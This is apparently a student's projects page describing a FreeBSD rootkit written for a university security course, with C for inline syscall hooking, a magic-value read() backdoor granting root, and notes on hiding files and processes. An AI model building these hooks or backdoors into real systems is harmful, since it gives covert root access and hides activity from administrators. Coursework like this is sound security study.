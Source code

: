```yaml
---
layout: page
title: projects
permalink: /projects/
---
```


todo:
writeup on Modular malware
Writeup on rootkit

As part of the UNSW Course COMP6447: System and Software Security Assessment, I worked in a team of four to write a basic rootkit for the FreeBSD OS

# Basic Assignment Specification
## Rootkit

You are permitted to do anything you wish to achieve the following fundamental functionality

    Provide a method to escalate to uid(0) (root) by a low privileged/non-root user/binary.
    Attempt to hide itself from detection. e.g. concealing itself from kldstat, and userland components from find.

## Rootkit Detection

You must return status code 0 if no rootkit is detected, and return 1 if a rootkit is detected. You may print whatever output you wish during the script.

## Fundamental Functionality


### Key Utilities 

#### Inline Hooking

We need a way of communicate to the kernel from userland, we do this via inline hooking of system calls.<br />
We have a utility called `do_hook`, which takes in a function to overwrite and a function to overwrite it with.<br />
```c
void do_hook(void* overwrite, void* func) {
	char* function_to_overwrite = (char*) overwrite;
	char* function_to_call = (char*) func;

	uprintf("Overwriting %p with %p\n", function_to_overwrite, function_to_call);

	int diff = (int) ((function_to_call - function_to_overwrite) - 5);

	int* new_lol = (int*) (function_to_overwrite+1);
	function_to_overwrite[0] = 0xe9; // JMP
	new_lol[0] = diff;
}
```

The first instruction of the original function becomes a x86 JMP32 command. This command has the opcode 0xe9 followed by a 4 byte relative address to where you want to jump to. <br />

We can calculate the relative address by subtracting the function we want to jump to by the address we are patching. `func_to_overwrite - func_to_jump_to`.
To summarise, we overwrite the function with 0xe9 followed by the calculated offset. This is all done by just referencing the function as a char array, and setting the first 5 bytes.

#### Hidden Files

We also needed a way of creating hidden files from the userland <br />

You'll often see files prepended with hd. We refere to these as hidden files. This indicates the file is hidden from the user and can neither be listed or read from syscalls. <br />

This is all done by using the hooker described above to change `getdirentries`, `open` and `read`.<br />
Specifically the hooks do the following:

* getdirentries: Hidden files are removed from the outputed entries list.
* open: Keeps track of all file descriptors that references a Hidden file via a linked list.
* read: Returns NULL back to the user if the file descriptor refernced is in the linked list of Hidden files.

### Priv Esc

Now we needed a way to escalate to root privs from userland. <br />
This is done by implementing a backdoor in our rootkit module. Specically, the following line of C will increase the privledges of the caller to uid=0.
```c
read(0xdeadbeef, NULL, 0xdeadb33f)
```

This is done internally by editing the current processes `struct ucred`

```c
void escalate_privs(struct thread* td) {
    struct ucred* creds = td->td_ucred;

    // uid
    creds->cr_uid = 0;
    creds->cr_ruid = 0;
    creds->cr_svuid = 0;

    // groups
    creds->cr_rgid = 0;
    creds->cr_svgid = 0;
}
```

### Concealment

## Hiding processes

Freebsd keeps a few lists of running processes in the kernel. Particularly the global lists `p_list` and `p_hash` contains a linked list of running processes. We can therefore simply unlink any processes we wish from these lists, making the processes hidden from other users running tests.

## Bonuses



## Extended Detector

TODO explain detector

